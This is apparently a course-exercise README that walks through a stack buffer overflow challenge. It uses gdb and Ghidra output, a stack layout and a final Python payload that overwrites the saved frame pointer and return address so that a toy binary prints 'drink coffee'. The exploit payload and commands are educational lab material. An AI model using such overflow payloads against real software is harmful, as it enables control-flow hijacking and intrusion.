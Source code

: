 # buffer-overflow-exercises
collection of buffer-overflow based challenges from advanced-cyber course in College Of Managment
## 3st task
**Goal:** make the binary print "drink coffee"  

First we run the binary:
```
$ ./three 
testpassword
Do not drink coffee
 ```
We can see that upon entering a password the following two strings are printed- “Do not” and “drink coffee”. 
```assembly
Dump of assembler code for function main:
   0x080486a8 <+0>:     lea    ecx,[esp+0x4]
   0x080486ac <+4>:     and    esp,0xfffffff0
   0x080486af <+7>:     push   DWORD PTR [ecx-0x4]
   0x080486b2 <+10>:    push   ebp
   0x080486b3 <+11>:    mov    ebp,esp
   0x080486b5 <+13>:    push   ecx
   0x080486b6 <+14>:    sub    esp,0x4
   0x080486b9 <+17>:    call   0x804868b <_Z3foov>
   0x080486be <+22>:    sub    esp,0x8
   0x080486c1 <+25>:    push   0x80487e0
   0x080486c6 <+30>:    push   0x804a0e0
   0x080486cb <+35>:    call   0x8048560 <_ZStlsISt11char_traitsIcEERSt13basic_ostreamIcT_ES5_PKc@plt>        
   0x080486d0 <+40>:    add    esp,0x10
   0x080486d3 <+43>:    sub    esp,0x8
   0x080486d6 <+46>:    push   0x80487e8
   0x080486db <+51>:    push   0x804a0e0
   0x080486e0 <+56>:    call   0x8048560 <_ZStlsISt11char_traitsIcEERSt13basic_ostreamIcT_ES5_PKc@plt>        
   0x080486e5 <+61>:    add    esp,0x10
   0x080486e8 <+64>:    mov    eax,0x0
   0x080486ed <+69>:    mov    ecx,DWORD PTR [ebp-0x4]
   0x080486f0 <+72>:    leave
   0x080486f1 <+73>:    lea    esp,[ecx-0x4]
   0x080486f4 <+76>:    ret
End of assembler dump.
```
Our target is to execute only the “drink coffee” print without the “Do not” print.
After a brief look on the assembly code we can see that there are two prints - <+35> and <+56> there is no jump or compare before any of them so we need to think of a way to tamper with the execution flow.

<+17> we can see a call to foo. let’s disassemble using ghidra:
```C
void foo(void)
{
  char local_lc[24];
  cin >> local_lc;
  return;
}
```
We can use a buffer overflow attack and manipulate the return instruction pointer into our liking.  
Lets examine the stack upon entering a value:
```
$ gdb three
$ b *foo+27
$ r <<(python2 -c "print('A'*24)")
```
```
gef➤  x/10x $esp
0xffffcf60:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffcf70:     0x41414141      0x41414141      0xffffcf00      0x080486be
0xffffcf80:     0xffffcfb0      0xffffcfa0
```
After inserting the letter ‘A’ 24 times, we can see the hex code 41 appears 24 times in our stack
Another interesting thing we can see is the return address (0x080486be) in the stack, right after the saved frame pointer address.
So, after inspecting the stack we can assume it looks like this:
```
top of the stack                                             bottom of stack
<------ [            buf[24]            ] [ ebp  ] [  ret  ]
bottom of memory                                             top of memory
```
In order to change the execution flow we want to change the saved eip to skip the “Do not” print.  

After understanding the security flaw we can **overwrite the return address** by exploiting the buffer overflow.
We’ll craft the payload like this: 24 characters for padding + main’s ebp + new return address

The line we need to jump to is line <main +40> 0x080486d0  
The os is using Little endian architecture

![image](https://github.com/0xtal4/buffer-overflow-exercises/assets/48101413/8a8ed180-4a35-4715-970a-99d88ecbb893)  

So, in order to overwrite the eip to **0x080486d0** we need to write **0xd0860408**
In order to avoid segfault we need to overwrite the correct saved frame pointer to the ebp of main.

```
gef➤  info registers
eax            0x80486a8           0x80486a8
ecx            0xffffcfa0          0xffffcfa0
edx            0xffffcfc0          0xffffcfc0
ebx            0xf7a1dff4          0xf7a1dff4
esp            0xffffcf88          0xffffcf88
ebp            0xffffcf88          0xffffcf88
esi            0x8048760           0x8048760
edi            0xf7ffcba0          0xf7ffcba0
eip            0x80486b5           0x80486b5 <main+13>
eflags         0x286               [ PF SF IF ]
cs             0x23                0x23
ss             0x2b                0x2b
ds             0x2b                0x2b
es             0x2b                0x2b
fs             0x0                 0x0
gs             0x63                0x63
```

The final payload will be                             
python2 -c "print('A'*24+'\x88\xcf\xff\xff\xd3\x86\x04\x08')"

```
gef➤  r <<(python2 -c "print('A'*24+'\x88\xcf\xff\xff\xd3\x86\x04\x08')")
Starting program: /home/kali/Desktop/tasks/files/three <<(python2 -c "print('A'*24+'\x88\xcf\xff\xff\xd3\x86\x04\x08')")
[Thread debugging using libthread_db enabled]                                                                                                                                                
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".                                                                                                                   
drink coffee[Inferior 1 (process 28524) exited normally]
```
Success! “drink coffee” is printed!


